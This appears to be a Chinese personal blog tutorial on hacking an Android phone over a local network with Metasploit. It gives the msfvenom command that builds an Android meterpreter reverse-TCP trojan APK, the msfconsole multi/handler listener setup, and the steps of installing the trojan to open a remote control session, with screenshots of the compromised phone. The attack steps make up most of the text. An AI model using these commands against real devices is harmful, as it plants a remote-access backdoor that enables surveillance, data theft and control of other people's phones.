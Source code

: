 ```yaml
---
title: 【笔记】msf 黑入安卓系统
categories:
  - 网络安全
date: 2020-01-10 17:29:40
password: pass
---
```


## 前言

使用`msf`工具黑入手机安卓系统（局域网）

<!-- more -->

## 准备工作

- 安卓手机

- [msf](https://feiju12138.github.io/2019/11/16/安装配置Metasploit-Framework/)

## 开始测试

### 制作木马

#### 查看本机ip地址

``` sh
ifconfig
```

#### 利用msf制作安卓木马

> `<ip_address>`：本机局域网ip地址
> `<port>`：自定义端口号，用于监听木马程序
> `<name>`：安装包名称

``` sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=<ip_address> LPORT=<port> R> ~/Downloads/<name>.apk
```

### 启动msf监听木马程序

``` sh
msfconsole 
use multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <ip_address>
set LPORT <port>
exploit
```

### 启动木马程序

- 安卓机和本机在同一局域网，安装并启动木马程序

- 本机返回`Meterpreter session 1 opened`，监听成功

![01.png](/images/20200110172940/01.png)

### 对手机进行远程操作

- 查看帮助

``` sh
meterpreter > help
```

## 完成

- 成功黑入后可对手机进行远程操作

- 展示三张成功黑入截图，留作纪念

![02.png](/images/20200110172940/02.png)

![03.png](/images/20200110172940/03.png)

![04.png](/images/20200110172940/04.png)

## 后记

- 本机返回`Meterpreter session 1 closed`，监听程序退出

## 参考文献

[哔哩哔哩——Hai_Dog](https://www.bilibili.com/video/av16375329/?spm_id_from=trigger_reload)
[哔哩哔哩——你会忘了我](https://www.bilibili.com/video/av33571463/?spm_id_from=333.788.videocard.0)

